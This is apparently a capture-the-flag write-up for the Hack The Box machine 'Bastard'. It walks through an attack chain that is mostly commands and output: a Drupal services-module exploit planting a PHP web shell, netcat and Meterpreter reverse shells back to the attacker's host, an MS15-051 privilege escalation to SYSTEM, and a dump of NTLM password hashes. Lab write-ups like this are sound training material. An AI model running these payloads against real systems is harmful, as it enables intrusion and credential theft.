


# Bastard

## Machine Info



## Recon

### port & path

- nmap
  - nothing about snmp after using snmpwalk
  - 80 http, drupal 7.x
    - `/CHANGELOG.txt`
    - `/rest`
    - `/administrator`

```console
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```

### Drupal CMS

**Version & Rest Endpoint**

1. Drupal 7.54
2. /rest with endpoint: rest_endpoint

```console
└─╼$ curl http://10.129.104.205/CHANGELOG.txt | head -n 20
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
  interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
  (API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
  (API addition: https://www.drupal.org/node/2824590).
- Fixed incorrect default value for short and medium date formats on the date
  type configuration page.
- File validation error message is now removed after subsequent upload of valid
  file.
- Numerous bug fixes.
- Numerous API documentation improvements.
- Additional performance improvements.
- Additional automated test coverage.

└─╼$ curl http://bastard.htb/rest
Services Endpoint "rest_endpoint" has been setup successfully.
```

## Foothold

### RCE



**Exploit**: [Drupal 7.x Module Services - Remote Code Execution](https://www.exploit-db.com/exploits/41564)

1. Install php-curl in order to execute code correctly

```console
└─╼$ sudo apt install php-curl -y
```

2. Customize payload with url, endpoint info, payload filename

```console
$url = 'http://bastard.htb/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'imqwe.php',
    'data' => '<?php system($_GET["cmd"]); ?>'
];
```

3. Execute to upload php file

```console
└─╼$ php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://bastard.htb//imqwe.php
```

4. POC

```console
└─╼$ curl -G --data-urlencode 'cmd=whoami' http://bastard.htb/imqwe.php
nt authority\iusr
```

5. Exploit

```console
└─╼$ sudo impacket-smbserver qwe .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.104.205,51193)
[*] AUTHENTICATE_MESSAGE (\,BASTARD)
[*] User BASTARD\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)

-----------------------------------------------------------------------

└─╼$ curl -G --data-urlencode 'cmd=\\10.10.16.18\qwe\nc64.exe -e cmd.exe 10.10.16.18 1234' http://bastard.htb/imqwe.php

-----------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.104.205] 51243
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr

C:\inetpub\drupal-7.54>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

## Privilege Escalation

msf

```console
C:\Users>\\10.10.16.18\qwe\reverse.exe

└─╼$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.16.18; set lport 4444; exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.10.16.18
lport => 4444
[*] Started reverse TCP handler on 10.10.16.18:4444
[*] Sending stage (200774 bytes) to 10.129.104.205
[*] Meterpreter session 1 opened (10.10.16.18:4444 -> 10.129.104.205:52981) at 2024-02-18 17:08:25 +0800

meterpreter > getuid
Server username: NT AUTHORITY\IUSR
```

systeminfo

```console
C:\inetpub\drupal-7.54>systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46
System Boot Time:          18/2/2024, 8:16:51
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.528 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.535 MB
Virtual Memory: In Use:    560 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.104.205
```

multi/recon/local_exploit_suggester

```console
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.104.205 - Collecting local exploits for x64/windows...
[*] 10.129.104.205 - 190 exploit checks are being tried...
[+] 10.129.104.205 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.104.205 - exploit/windows/local/cve_2020_1054_drawiconex_lpe: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/cve_2021_40449: The service is running, but could not be validated. Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.104.205 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.104.205 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.104.205 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Running check method for exploit 45 / 45
[*] 10.129.104.205 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 6   exploit/windows/local/cve_2020_1054_drawiconex_lpe             Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2021_40449                           Yes                      The service is running, but could not be validated. Windows 7/Windows Server 2008 R2 build detected!
 8   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
```

**Exploit**: [MS15_051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

1. POC

```console
C:\Users>\\10.10.16.18\qwe\ms15-051x64.exe "whoami"
\\10.10.16.18\qwe\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1644 created.
==============================
nt authority\system
```

2. Exploit: use ms15-051 payload to trigger a reverse shell with admin priv

```console
C:\Users>\\10.10.16.18\qwe\ms15-051x64.exe "\\10.10.16.18\qwe\nc64.exe -e cmd.exe 10.10.16.18 4444"
\\10.10.16.18\qwe\ms15-051x64.exe "\\10.10.16.18\qwe\nc64.exe -e cmd.exe 10.10.16.18 4444"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1784 created.
==============================

-----------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.104.205] 57959
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users>whoami
whoami
nt authority\system

C:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                                   State
=============================== ============================================= ========
SeCreateTokenPrivilege          Create a token object                         Disabled
SeAssignPrimaryTokenPrivilege   Replace a process level token                 Disabled
...
SeTimeZonePrivilege             Change the time zone                          Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                         Enabled
```

3. hashdump

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3c87620c26302e9f04a756e3301e63a:::
dimitris:1004:aad3b435b51404eeaad3b435b51404ee:57544bb8930967eee7f44d46f8bfe59d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Exploit Chain

port scan -> drupal scan: vuln version -> rce -> iusr shell -> local enum: systeminfo, local_exploit_suggester -> ms15-051 -> admin shell

